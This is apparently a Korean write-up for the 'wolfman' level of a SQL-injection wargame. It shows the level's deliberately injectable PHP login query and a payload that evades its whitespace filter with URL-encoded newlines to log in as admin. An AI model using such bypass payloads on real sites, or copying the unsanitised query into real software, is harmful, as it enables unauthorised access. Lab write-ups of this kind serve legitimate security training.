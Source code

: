 # wolfman

``` php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

preg_match()함수로 공백이 필터링 되었다.   
공백을 우회하는 방법은 +, %0a(\n), %09(\t), %0d(\r), %0b, %0c, %a0 등등이 있다.   
그러므로 query문은 ?pw='%0aor%0aid='admin'%23으로 작성해 준다.
